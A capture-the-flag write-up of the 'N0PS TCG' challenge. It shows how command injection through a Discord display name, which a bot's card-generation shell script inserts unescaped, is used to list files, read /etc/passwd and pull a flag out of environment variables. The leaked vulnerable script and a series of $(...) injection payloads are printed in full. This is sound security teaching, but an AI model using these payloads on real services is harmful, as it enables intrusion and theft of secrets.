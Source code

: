 Remember Joe Dohn from last year ? He is back with a new concept now: **N0PS TCG**. Try to get in touch with him, he will tell you more about that! I heard he roams around on the Discord server...

# Solve

It appears to be a vulnerable bot.
My teammate found we could dump the source with !devlog

```
#!/bin/bash

#os.popen(f"/app/create_card.sh '{card_class}' '{display_name}' '{discord_tag}' '{', '.join(card_abilities)}' '{profile_picture}' '{id}' '{card_rarity_name}'")

find /tmp -iname *.pdf -delete 2>/dev/null
find /tmp -iname *.html -delete 2>/dev/null

uuid=$(cat /proc/sys/kernel/random/uuid)

cat /app/template.html \
| sed -e "s/card_class/${1}/g" \
| sed -e "s/display_name/${2}/g" \
| sed -e "s/discord_tag/${3}/g" \
| sed -e "s/abilities/${4}/g" \
| sed -e "s/profile_picture/${5}/g" \
| sed -e "s/card_id/${6}/g" \
| sed -e "s/card_rarity/${7}/g" \
> /tmp/$uuid.html

python3 -c "import weasyprint; weasyprint.HTML('/tmp/${uuid}.html').write_pdf('/tmp/${uuid}.pdf')"

pdftoppm -singlefile -jpeg -r 300 /tmp/$uuid.pdf /tmp/$uuid

echo /tmp/$uuid.jpg
```

We have access to the "display_name" variable through changing our display name on discord. After trying a bunch of options I found the following were able to achieve command injection

```
'$(ls)'
'$(cat /etc/passwd)'
```

But it appears to break as it responds with a blank image which means it appears to be breaking the overall script due to the output. After trying a bunch of inputs I got something that actually generated an image.

```
'$(ls | wc -l)'
```

Which counts the files and sets that as our display name. This doesn't contain any special chars and isn't super long so it was able to work.

![](Images/Pasted%20image%2020250531121824.png)

Next we can start outputting the files one by one doing the following

```
'$(ls|head -1)'
```

Which gets us the name of the directory "assets" trying to do it with the first two lines of output breaks it probably due to the new line

![](Images/Pasted%20image%2020250531122137.png)

We can use the following the start grabbing each file

```
'$(ls|head -1)'           # file 1/6
'$(ls|head -2|tail -1)'   # file 2/6
'$(ls|head -3|tail -1)'   # file 3/6
'$(ls|head -4|tail -1)'   # file 4/6
'$(ls|head -5|tail -1)'   # file 5/6
'$(ls|tail -1)'           # file 6/6 (last file)
```


Directory 
- Assets
	- Card1.png
	- CardBG.png
	- Cards
		- CryptoBronze.png
		- Cryptocristal.png
		- Websilver.png
		- Webgold
- Create_card.sh
- devlog.txt
- Main_Py
- requirements.txt
- Template.HTML

```
'$(ls assets| wc -l)'
```

3 objects within assets

```
'$(ls assets|head -1)'           # file 1/6
'$(ls assets|head -2|tail -1)'   # file 2/6
'$(ls assets|head -3|tail -1)'   # file 3/6
```

We find another directory called cards we have to limit our username input to a specific size so we have to use sed instead to print specific lines

```
'$(ls assets/cards|sed -n 1p)'
'$(ls assets/cards|sed -n 2p)'
'$(ls assets/cards|sed -n 3p)'
'$(ls assets/cards|sed -n 4p)'
'$(ls assets/cards|sed -n 5p)'
'$(ls assets/cards|sed -n 6p)'
'$(ls assets/cards|sed -n 7p)'
'$(ls assets/cards|sed -n 8p)'
'$(ls assets/cards|sed -n 9p)'
'$(ls assets/cards|sed -n 10p)'
'$(ls assets/cards|sed -n 11p)'
'$(ls assets/cards|sed -n 12p)'
'$(ls assets/cards|sed -n 13p)'
'$(ls assets/cards|sed -n 14p)'
'$(ls assets/cards|sed -n 15p)'
'$(ls assets/cards|sed -n 16p)'
```

Just appears to be a bunch of image files

Using `'$(basename $(pwd))'` we know that we are within the app directory. After brute forcing I remembered the devlog says the secrets are in the env

![](Images/Pasted%20image%2020250531124159.png)


```
'$(env|grep -c N0PS)'
```

![](Images/Pasted%20image%2020250531124221.png)

This confirms its in the env.

```
'$(env|grep N0PS|cut -d= -f1)'
```

![](Images/Pasted%20image%2020250531124259.png)

The variable name is FLAG now lets just print that

```
'$(echo $FLAG)'
```

![](Images/Pasted%20image%2020250531124330.png)

Which gets our flag

```
N0PS{W0ULD_U_7R4D3_Y0UR_C4RDZ_W1TH_M3?}
```

I was able to be the 4th one to solve this challenge. 